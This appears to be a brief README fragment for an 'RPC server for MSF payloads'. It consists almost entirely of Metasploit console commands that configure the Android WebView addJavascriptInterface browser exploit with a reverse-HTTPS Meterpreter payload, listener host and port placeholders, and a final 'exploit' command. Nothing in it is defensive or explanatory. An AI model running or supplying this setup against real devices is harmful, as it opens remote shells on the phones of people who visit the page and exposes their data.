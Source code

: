 RPC SERVER FOR MSF PAYLOADS

# connection 
- use exploit/android/browser/webview_addjavascriptinterface
- set PAYLOAD android/meterpreter/reverse_https
- set LHOST <your_django_server_url>
- set LPORT <your_listener_port>
- set URIPATH /
- set SSL true
- set SRVPORT <your_server_port>
- set SRVHOST <your_server_ip>
- exploit
